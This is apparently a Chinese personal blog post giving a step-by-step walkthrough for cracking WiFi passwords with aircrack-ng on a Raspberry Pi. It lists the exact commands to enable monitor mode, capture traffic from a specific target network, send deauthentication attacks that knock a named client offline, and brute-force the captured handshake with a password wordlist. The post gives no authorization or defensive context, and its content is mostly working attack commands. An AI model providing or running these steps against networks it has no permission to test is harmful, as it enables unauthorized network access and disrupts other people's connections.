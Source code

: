 ```yaml
---
title: 用aircrack-ng破解wifi密码
author: 黄俭
date: '2020-07-02'
slug: aircrack-ng-wifi-crack
categories:
  - Computer
tags:
  - Linux
---
```


## 准备阶段
 - 外置USB网卡，我用的是老古董网卡，D-Link的AirPlus G DWL-G122.
 - 安装aircrack-ng。我是在CentOS 7 for RASPBERRY PI上编译安装，前期要装的包有......。
 
## 实战阶段
1. 杀死一些影响监听的进程
```shell
 # airmon-ng check kill
```

1. 将无线网卡设定为监听状态
```shell
 # airmon-ng start wlp1s0u1u4
```
执行结果截图
![图1 airmon-ng启动网卡的监听状态](http://123.56.98.124:8080/picLIB/upload/15/2020-07-02%2011-47-27%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE.png)

1. 查看监听网卡名
```shell
 # iwconfig
```

1. 开始监听
```shell
 # airodump-ng wlp2s0mon
```

1. 选择破解目标

1. 开始抓包
```shell
 # airodump-ng wlp3s0mon --bssid FE:7C:02:54:57:AD -c 4 -w ~/wifi_hack/HR658
```

1. 进行断线攻击
```shell
 # aireplay-ng -0 10  -a FE:7C:02:54:57:AD -c EC:89:14:68:61:17  wlp3s0mon
```
1. 检查利用密码词典暴力破解
```shell
 $ aircrack-ng data-01.cap -w ./crackstation-human-only.txt
```
1. 用screen命令挂机执行
```shell
 $ screen -S wifihack aircrack-ng data-01.cap -w ./crackstation-human-only.txt
```
1. 唤回screen
```shell
 $ screen -ls
 $ screen -r wifihack #id
```
1. Mac 系统下的操作
    - 详细的参考见[这里](https://martinsjean256.wordpress.com/2018/02/12/hacking-aircrack-ng-on-mac-cracking-wi-fi-without-kali-in-parallels/)。
    - 软件的安装见[这里](https://blog.csdn.net/wank1259162/article/details/104875834), CentOS 7下的安装在这个网页中也有描述。